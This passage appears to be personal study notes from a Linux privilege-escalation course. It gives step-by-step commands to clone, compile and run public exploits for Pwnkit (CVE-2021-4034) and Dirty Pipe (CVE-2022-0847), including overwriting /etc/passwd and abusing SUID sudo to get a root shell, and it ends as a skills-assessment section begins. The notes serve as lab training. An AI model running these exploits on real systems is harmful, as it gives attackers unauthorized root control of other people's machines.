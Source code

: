     # Pwnkit, CVE-2021-4034, is a recent vulnerability for pkexec

    git clone https://github.com/arthepsy/CVE-2021-4034.git
    cd CVE-2021-4034
    gcc cve-2021-4034-poc.c -o poc

    ./poc
    # exploit gives root shell
    ```

* Dirty pipe:

    ```sh
    # all kernels from 5.8 to 5.17 are affected by a vulnerability in Linux kernel
    # CVE-2022-0847, Dirty Pipe

    uname -r
    # verify kernel version

    find / -perm -4000 2>/dev/null
    # find SUID binaries

    git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
    cd CVE-2022-0847-DirtyPipe-Exploits
    bash compile.sh

    # there are 2 exploits included
    ./exploit-1
    # exploit-1 modifies /etc/passwd to give root shell

    # exploit-2 executes SUID binaries with root priv
    ./exploit-2 /usr/bin/sudo
    ```

## Skills Assessment

    ```sh
    # we have been given SSH access
    # need to find 5 flags at different privilege levels
